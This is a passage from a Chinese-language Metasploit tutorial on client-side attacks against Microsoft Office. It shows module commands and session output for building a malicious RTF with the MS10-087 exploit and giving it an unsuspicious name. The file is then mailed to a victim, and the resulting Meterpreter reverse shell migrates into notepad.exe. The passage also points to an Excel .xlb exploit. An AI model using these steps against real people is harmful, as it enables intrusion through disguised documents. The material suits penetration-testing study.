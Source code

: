 ```
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic 
```

利用包含一个`FILENAME`参数，其中包含有关要创建的恶意文件名的信息。默认值为`msf.rtf`。让我们将其更改为一些不太可疑的名称。我们还将设置`LHOST`的值，这是攻击机的 IP 地址。

```
msf exploit(ms10_087_rtf_pfragments_bof) > set FILENAME priceinfo.rtf
FILENAME => priceinfo.rtf
msf exploit(ms10_087_rtf_pfragments_bof) > set LHOST 192.168.56.101 
```

文件名已更改为`priceinfo.rtf`，`LHOST`的值已设置为`192.168.56.101`。所以我们已经准备好执行利用模块了。

```
msf exploit(ms10_087_rtf_pfragments_bof) > exploit
[*] Creating 'priceinfo.rtf' file ...
[+] priceinfo.rtf stored at /root/.msf4/local/priceinfo.rtf 
```

Metasploit 已经为我们创建了一个恶意文件，我们必须使用它来进行客户端攻击。该文件位于`/root/.msf4/local/priceinfo.rtf`。现在的下一步是将此文件发送给目标用户，可以通过邮件或其他媒介。一旦目标用户执行了这个恶意文件，我们会注意到它会以一个 Word 文档的形式打开。在执行几秒钟后，Microsoft Word 实例将挂起或崩溃，具体取决于系统。与此同时，恶意文件成功执行利用，并为目标提供了一个活动会话。为了使连接持久，利用将自己迁移到后台运行的其他进程。

```
Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:57031) at 2011-11-13 23:16:20 +0530
[*] Session ID 2 (192.168.56.101:4444 -> 192.168.56.1:57031) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: WINWORD.EXE (5820)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 5556
[+] Successfully migrated to process 
```

命令行的前几行显示了成功执行利用，结果是与`SESSION ID = 2`的活动会话。命令行的最后部分显示，利用已成功从`WINWORD.EXE`迁移到`notepad.exe`。

## 工作原理...

利用模块简单地创建一个恶意的 Word 文件，向 Word 解析器传递非法值。解析器无法识别非法值导致缓冲区溢出。然后有效载荷开始执行代码，与攻击机建立反向连接。这种攻击的成功与机器有关，因为有时**Windows ASLR（地址空间布局随机化）**可能会阻止执行任意代码（有效载荷）。

## 还有更多...

Office 套件还有另一个流行的利用。我将把它作为一个实践的课程留给你。在这里，我将简要概述一下。

### Microsoft Excel 2007 缓冲区溢出

这个已知的利用针对 Microsoft Excel 工具（`.xlb`）的 2007 版本。执行恶意的.xlb 文件可能导致基于堆栈的缓冲区溢出，并导致任意代码执行。利用可以在`exploit/windows/fileformat/ms11_021_xlb_bof`中找到。
